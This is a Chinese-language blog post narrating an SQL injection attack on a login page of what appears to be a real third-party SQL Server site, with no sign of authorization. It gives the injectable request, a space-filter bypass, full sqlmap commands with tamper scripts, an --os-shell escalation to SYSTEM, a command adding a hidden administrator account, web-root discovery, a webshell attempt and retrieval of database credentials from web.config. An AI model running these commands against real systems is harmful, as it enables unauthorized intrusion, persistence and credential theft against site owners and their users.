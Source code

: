 ```yaml
---
date: 2020-06-22 17:35:07
title: 记一次 SQLServer 注入
description: 注入 bypass
categories:
  - Pentest
tags:
  - SQL注入
  - bypass
---
```


### 0x00 存在 SQL 注入
总之是遇到一个站，登录的页面，数据包大致如下：
```
POST /jsweb/userlogin/UserLoginAction.aspx HTTP/1.1
Host: 115.xxx.xxx.xxx:8042
Content-Length: 47
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://115.xxx.xxx.xxx:8042
Referer: http://115.xxx.xxx.xxx:8042/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ASP.NET_SessionId=bxdzehxa5mvoco1fkrjlbqbt
Connection: close

uname=admin*&pwd=dskfsdkf&valCode=1197&telphone=
```

其中验证码可以绕过，而登录名那里存在注入
![](/img/post/Xnip2020-09-13_22-20-51.jpg)
![](/img/post/Xnip2020-09-13_22-21-32.jpg)

使用 and 1=1、and 1=2 时，发现过滤了空格，用/**/代替
![60](/img/post/Xnip2020-09-13_22-30-08.jpg)
![60](/img/post/Xnip2020-09-13_22-30-34.jpg)

### 0x01 简单看一下

中间件是 IIS，存在 len 函数，确定为 SQLServer
![60](/img/post/Xnip2020-09-13_22-33-36.jpg)

Order by 一下，看看能不能 union，发现有 10 列
![60](/img/post/Xnip2020-09-13_22-34-56.jpg)

尝试 union select
![80](/img/post/Xnip2020-09-13_22-40-54.jpg)

admin 转换为 int 时出错，感觉好像能显示位，测试发现确实可以显示
![80](/img/post/Xnip2020-09-13_22-41-55.jpg)

可以获取数据库版本，可以确定有 union 注入了
![](/img/post/Xnip2020-09-13_22-42-59.jpg)

### 0x02 sqlmap
```sqlmap跑一下：sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment```
![](/img/post/Xnip2020-09-13_22-45-24.jpg)

比较奇怪，手工的时候可以 union 的，先看看 boolean-based 获取数据吧

-\-current-db 倒是能获取到数据库名为 ExamDataP_2019，但是获取表名的时候就返回空了

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment -D ExamDataP_2019 --tables```
![](/img/post/Xnip2020-09-13_22-46-35.jpg)

能判断出来有注入，手工测试 and 1=1 时可以，测试 union 也可以，看来确实有过滤

### 0x03 探测过滤
看看过滤了啥，union 比较快，就用 union、-v 5 看下 payload

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment --technique=U --current-db -v 5```

直接拿最后一个 payload 测试下
![](/img/post/Xnip2020-09-13_23-05-33.jpg)

提示 98 附近有错误
![80](/img/post/Xnip2020-09-13_23-06-19.jpg)

感觉像过滤了char之类的函数，char 移到显示位，测一下

发现有加号的时候出错，没有的时候就没问题，可能是处理加号了
![80](/img/post/Xnip2020-09-13_23-07-17.jpg)
![80](/img/post/Xnip2020-09-13_23-08-12.jpg)

移到显示位测了下，确实处理加号了，替换为空了
![80](/img/post/Xnip2020-09-13_23-08-59.jpg)

### 0x04 tamper
去网上找了能替换加号的，没有找到相关信息，后来想着 sqlmap 的 tamper 会不会有，结果还真有
![](/img/post/Xnip2020-09-13_23-09-50.jpg)

有两个 tamper，一个是适用 2012 的，一个是 2008 的，我们这里的数据库是 08 的，用 plus2fnconcat.py 这个，可以判断出来数据库了

```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment,plus2fnconcat --technique=U --current-db```
![](/img/post/Xnip2020-09-13_23-10-55.jpg)

Emmmmm，可以获取数据库表，但是获取表的列名时依然不返回数据
![](/img/post/Xnip2020-09-13_23-12-12.jpg)

### 0x05 再次探测过滤
同样 -v 3 看 payload，然后测试
![](/img/post/Xnip2020-09-13_23-13-06.jpg)

有语法错误，估计又是那个被替换为空了，慢慢试。。。

看了下语句，涉及到的也就是 union、select、concat、cast、from、syscolumns、sysobjects、where、and 这些个可能被过滤的，union、select 没问题，前面测试过了，剩下的被处理的关键字感觉大概率是 from、and。。。。
![70](/img/post/Xnip2020-09-13_23-13-59.jpg)

语法错误。。。应该就是 from 了。能报错，还是想法报错到显示位

emmmm，感觉好像没有哪里过滤。。。但就是有语法错误。。。
![](/img/post/Xnip2020-09-13_23-14-57.jpg)

网上查了下，其实前面的 from 出错是因为表的原因，from 1，没有 1 这个表，所以出错。。。。。

sqlserver 和 mysql 不一样，还是用的少。。。
![90](/img/post/Xnip2020-09-13_23-15-38.jpg)

但是再次找个 pyaload 尝试依然有问题，不返回数据
![70](/img/post/Xnip2020-09-13_23-16-39.jpg)

同样的语句本地测试是可以返回数据的，费解
![80](/img/post/Xnip2020-09-13_23-17-18.jpg)


### 0x06 os-shell
实在没法了，-\-is-dba 为 True，直接 -\-os-shell
```sqlmap --risk=3 --level=3 --batch --thread=1 -r 1.txt --dbms="mssql" --random-agent --prefix="'" --suffix="--" --tamper=space2comment,plus2fnconcat --os-shell```
![](/img/post/Xnip2020-09-13_23-18-11.jpg)

emmmmmm，system，啥都不说了。。。。。
![90](/img/post/Xnip2020-09-13_23-19-19.jpg)

看下端口
![70](/img/post/Xnip2020-09-13_23-19-55.jpg)

添加用户不行，卡死，估计是被拦截了
```net user Guest1 Aa123456. /add & net localgroup administrators Guest1 /add & net user Guest1 /active:yes```
![](/img/post/Xnip2020-09-13_23-20-30.jpg)

看了下 tasklist，有 360，先传个 shell 吧，方便后续渗透

找路径: ```dir /s /b e:\"username.jpg"```
![70](/img/post/Xnip2020-09-13_23-21-31.jpg)

通过 echo 写 txt 判断路径，试了几个都不是，写中文路径提示不存在。。。。。
![](/img/post/Xnip2020-09-13_23-22-51.jpg)

本来网上查可以用 bat 写中文路径文件，用了 certutil、bitsadmin、powershell 都没有下载成功

看下有没有不是不包含中文的 web 路径: ```type C:\Windows\System32\inetsrv\config\applicationHost.config```

发现 80 端口路径为 c:\inetpub\wwwroot\
![85](/img/post/Xnip2020-09-13_23-23-33.jpg)

写一句话: 
![](/img/post/Xnip2020-09-13_23-24-28.jpg)

访问后出错
![70](/img/post/Xnip2020-09-13_23-25-10.jpg)

后续测试发现通过浏览器写中文名的话可以，创建了文件 9d.txt，证明网站路径就是 e:\江xxxx网站\JsWeb\
![90](/img/post/Xnip2020-09-13_23-26-00.jpg)

现在的话就知道了目标的绝对路径为 e:\江xxxx网站\JsWeb\，同时目标的 80 端口的绝对路径为 c:\inetpub\wwwroot\

PS: 由于当时有别的事，没有继续向下做，其实还可以数据库备份 shell 到网站目录，后续也见到了一个不会出现 "/" 应用程序中的服务错误的 webshell

### 0x07 找数据库信息
找 Web.config，```dir /s /b e:\"Web.config"，type e:\b2cexam\web.config```
获取到一个数据库用户名密码user id=kw;password=123456;
![](/img/post/Xnip2020-09-13_23-27-23.jpg)
![](/img/post/Xnip2020-09-13_23-29-21.jpg)
